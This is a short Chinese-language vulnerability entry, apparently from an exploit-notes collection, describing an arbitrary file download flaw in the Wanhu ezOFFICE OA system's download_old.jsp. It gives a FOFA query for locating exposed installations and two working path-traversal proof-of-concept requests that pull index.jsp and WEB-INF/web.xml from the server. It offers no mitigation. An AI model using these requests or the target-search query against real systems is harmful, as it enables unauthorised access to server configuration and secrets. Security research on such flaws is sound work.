 # 万户OA download_old.jsp 任意文件下载漏洞

## 漏洞描述

万户OA download_old.jsp文件存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器上的任意文件

## 漏洞影响

```
万户OA
```

## FOFA

```
app="万户网络-ezOFFICE"
```

## 漏洞复现

产品页面

![image-20220520132657470](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201326571.png)

验证POC

```
/defaultroot/download_old.jsp?path=..&name=x&FileName=index.jsp
/defaultroot/download_old.jsp?path=..&name=x&FileName=WEB-INF/web.xml
```

![image-20220520132715066](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201327151.png)